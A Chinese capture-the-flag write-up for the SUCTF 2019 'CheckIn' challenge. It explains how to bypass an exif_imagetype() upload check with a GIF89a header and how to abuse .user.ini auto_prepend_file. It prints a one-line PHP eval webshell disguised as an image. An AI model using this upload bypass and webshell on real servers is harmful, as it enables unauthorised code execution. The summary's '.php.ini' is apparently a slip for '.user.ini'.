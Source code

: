 # \[SUCTF 2019]CheckIn

## \[SUCTF 2019]CheckIn

## 考点

* exif\_imagetype()函数绕过
* 文件上传.user.ini

## wp

随便上传一个php文件试试

![](<../.gitbook/assets/image (19) (1) (1).png>)

上传一个空的gif文件（就是新建空白txt再把后缀改成gif）判断有没有检查其他东西，会提示`exif_imagetype:not image!`，加上文件头`GIF89a`，就成功了。

试试上传正常图片

![](<../.gitbook/assets/image (26) (1) (1).png>)

这儿可以猜测是`exif_imagetype()`函数判断是不是图片，在文件头添加图片头就可以绕过了，例如gif的文件头GIF89a

然后制作图片马上传

![](<../.gitbook/assets/image (1) (1).png>)

&#x20;上传条件

1. 不能上传带有`<?`的文件，使用`<script language="php">xxx</script>`绕过
2. 上传的文件必须含有图片头

考虑使用.htaccess，但是这个服务器是nginx，而.htaccess是针对apache的。那么这里利用是 .user.ini ，而且.user,ini利用的范围比.htaccess更广

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP\_INI\_SYSTEM、PHP\_INI\_PERDIR、PHP\_INI\_ALL、PHP\_INI\_USER

![](<../.gitbook/assets/image (14).png>)

`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为`PHP_INI_PERDIR` 、 `PHP_INI_USER`的设置。

在php配置项中有两个比较有意思的项`auto_prepend_file`和`auto_append_file`，相当于指定一个文件，要执行脚本前自动包含，类似于在脚本文件前调用了require()函数。`auto_prepend_file`是在脚本文件前插入，而`auto_append_file`是在脚本文件最后才插入。

那么思路就有了，先上传图片马，然后利用.user.ini解析图片马，进行getshell

上传的.user.ini

![](<../.gitbook/assets/image (3) (1).png>)

上传的shell，常用一句话`GIF89a? <script language="php">eval($_POST[1])</script>`

![](<../.gitbook/assets/image (17).png>)

然后直接访问`/uploads/04b0951938d905b41348c1548f9c338b/`即可，因为`auto_prepend_file`自动包含了`shell.gif`

## 小结

1. 不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用`.php.ini`。
2. [user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
